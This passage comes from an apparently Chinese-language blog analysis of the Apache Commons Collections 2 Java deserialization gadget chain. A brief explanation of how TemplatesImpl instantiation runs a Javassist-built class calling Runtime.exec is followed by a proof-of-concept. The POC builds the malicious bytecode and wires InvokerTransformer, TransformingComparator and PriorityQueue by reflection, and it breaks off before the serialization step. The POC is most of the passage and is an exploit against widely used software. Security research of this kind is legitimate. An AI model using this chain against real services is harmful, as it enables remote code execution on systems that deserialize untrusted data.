 ![7.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/61c44613-ce59-12a7-c5b9-38667bfa0358.png)

![8.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/028ff439-2d47-e1e0-f903-d22d30e95ffd.png)

`_class.newInstance()`会对`_class`进行实例化，从而触发命令，这里是因为通过`Javassist`构造了一个恶意类，恶意类的内容为`Runtime.getRuntime().exec("calc");`，因此实例化时会执行命令

![9.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/9ef94d69-e0c6-f7ed-0670-051e9dadb964.png)

**POC如下：**

```
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;


public class cc2 {
    public static void main(String[] args) throws Exception {
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        ClassPool classPool=ClassPool.getDefault();//返回默认的类池
        classPool.appendClassPath(AbstractTranslet);//添加AbstractTranslet的搜索路径
        CtClass payload=classPool.makeClass("CommonsCollections22222222222");//创建一个新的public类
        payload.setSuperclass(classPool.get(AbstractTranslet));  //设置前面创建的CommonsCollections22222222222类的父类为AbstractTranslet
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");"); //创建一个空的类初始化，设置构造函数主体为runtime

        byte[] bytes=payload.toBytecode();//转换为byte数组

        Object templatesImpl=Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();//反射创建TemplatesImpl
        Field field=templatesImpl.getClass().getDeclaredField("_bytecodes");//反射获取templatesImpl的_bytecodes字段
        field.setAccessible(true);
        field.set(templatesImpl,new byte[][]{bytes});//将templatesImpl上的_bytecodes字段设置为runtime的byte数组

        Field field1=templatesImpl.getClass().getDeclaredField("_name");//反射获取templatesImpl的_name字段
        field1.setAccessible(true);
        field1.set(templatesImpl,"test");//将templatesImpl上的_name字段设置为test

        InvokerTransformer transformer=new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});
        TransformingComparator comparator =new TransformingComparator(transformer);//使用TransformingComparator修饰器传入transformer对象
        PriorityQueue queue = new PriorityQueue(2);//使用指定的初始容量创建一个 PriorityQueue，并根据其自然顺序对元素进行排序。
        queue.add(1);//添加数字1插入此优先级队列
        queue.add(1);//添加数字1插入此优先级队列

        Field field2=queue.getClass().getDeclaredField("comparator");//获取PriorityQueue的comparator字段
        field2.setAccessible(true);
        field2.set(queue,comparator);//设置queue的comparator字段值为comparator

```